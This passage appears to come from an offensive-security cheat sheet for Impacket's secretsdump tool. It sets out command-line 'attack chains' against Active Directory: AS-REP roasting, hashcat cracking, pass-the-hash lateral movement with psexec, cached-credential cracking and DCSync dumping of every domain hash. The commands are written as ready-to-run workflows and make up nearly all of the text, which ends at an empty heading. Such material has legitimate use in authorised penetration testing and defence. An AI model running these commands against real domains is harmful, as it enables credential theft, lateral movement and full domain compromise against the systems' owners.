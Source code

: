 ### Advanced Options
```bash
# Include password history and user status
python3 secretsdump.py domain.com/user:password@dc.domain.com -history -user-status -pwd-last-set

# Resume interrupted extraction
python3 secretsdump.py domain.com/user:password@dc.domain.com -resumefile resume.txt

# Save output to file
python3 secretsdump.py domain.com/user:password@dc.domain.com -outputfile hashes.txt
```

## Attack Chain Integration

### Initial Domain Compromise
```bash
# Step 1: Gain initial access with low-privileged account
python3 GetNPUsers.py domain.com/ -dc-ip 192.168.1.10 -request

# Step 2: Crack obtained hashes and gain valid credentials
hashcat -m 18200 hashes.txt wordlist.txt

# Step 3: Dump all domain hashes with valid credentials
python3 secretsdump.py domain.com/cracked_user:password@dc.domain.com
```

### Lateral Movement Chain
```bash
# Step 1: Extract local hashes from compromised machine
python3 secretsdump.py domain.com/user:password@workstation.domain.com

# Step 2: Use extracted local admin hash for lateral movement
python3 psexec.py -hashes :localhash administrator@target.domain.com

# Step 3: Extract more credentials from new target
python3 secretsdump.py -hashes :localhash administrator@target.domain.com
```

### Privilege Escalation Chain
```bash
# Step 1: Extract cached domain credentials
python3 secretsdump.py domain.com/user:password@target.domain.com

# Step 2: Crack cached credentials to get privileged account
hashcat -m 2100 cached_creds.txt wordlist.txt

# Step 3: Use privileged account for DCSync
python3 secretsdump.py domain.com/domain_admin:password@dc.domain.com -just-dc
```

## Output Analysis
